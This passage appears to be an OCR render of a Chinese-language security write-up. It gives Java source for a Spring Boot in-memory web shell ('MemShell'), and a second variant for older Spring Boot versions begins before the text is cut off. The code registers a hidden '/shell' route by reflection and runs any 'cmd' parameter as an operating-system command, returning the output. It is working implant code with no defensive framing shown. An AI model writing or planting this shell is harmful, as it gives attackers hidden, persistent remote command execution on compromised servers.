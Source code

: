 ```java
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
        configField.setAccessible(true);
        RequestMappingInfo.BuilderConfiguration config =
                (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
        Method method = Shell.class.getMethod("inject", HttpServletRequest.class, HttpServletResponse.class);
        RequestMappingInfo info = RequestMappingInfo.paths("/shell")
                .options(config)
                .build();
        Shell shell = new Shell();
        mappingHandlerMapping.registerMapping(info, shell, method);
    }

    public static class Shell {
        public void inject(HttpServletRequest request, HttpServletResponse response) throws IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    }
}
```

低版本SpringBoot：

```java
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Scanner;

public class MemShell {
    public MemShell() throws Exception {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
        Method method = Shell.class.getDeclaredMethod("inject", HttpServletRequest.class, HttpServletResponse.class);
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
```